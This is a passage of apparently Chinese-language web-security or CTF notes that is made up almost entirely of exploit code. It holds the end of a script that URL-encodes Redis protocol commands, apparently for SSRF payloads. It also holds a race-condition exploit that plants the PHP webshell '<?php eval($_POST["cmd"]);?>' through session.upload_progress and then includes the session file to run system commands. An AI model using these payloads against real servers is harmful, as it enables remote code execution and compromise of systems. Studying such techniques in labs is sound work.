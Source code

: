 ```python
	cmd=""
	cmd+="*"+str(len(redis_arr))
	for x in redis_arr:
		cmd+=CRLF+"$"+str(len((x.replace("${IFS}"," "))))+CRLF+x.replace("${IFS}"," ")
	cmd+=CRLF
	return cmd

if __name__=="__main__":
	for x in cmd:
		payload += urllib.parse.quote(redis_format(x))
	print(payload)

```





### 条件竞争

文件包含：php中的session.upload_progress

exp:

```python
import io
import requests
import threading
sessid = 'TGAO'
data = {"cmd":"system('whoami');"}
def write(session):
    while True:
        f = io.BytesIO(b'a' * 1024 * 50)
        resp = session.post( 'http://127.0.0.1:5555/test56.php', data={'PHP_SESSION_UPLOAD_PROGRESS': '<?php eval($_POST["cmd"]);?>'}, files={'file': ('tgao.txt',f)}, cookies={'PHPSESSID': sessid} )
def read(session):
    while True:
        resp = session.post('http://127.0.0.1:5555/test56.php?file=session/sess_'+sessid,data=data)
        if 'tgao.txt' in resp.text:
            print(resp.text)
            event.clear()
        else:
            print("[+++++++++++++]retry")
if __name__=="__main__":
    event=threading.Event()
    with requests.session() as session:
        for i in xrange(1,30): 
            threading.Thread(target=write,args=(session,)).start()
            
        for i in xrange(1,30):
            threading.Thread(target=read,args=(session,)).start()
    event.set()
```
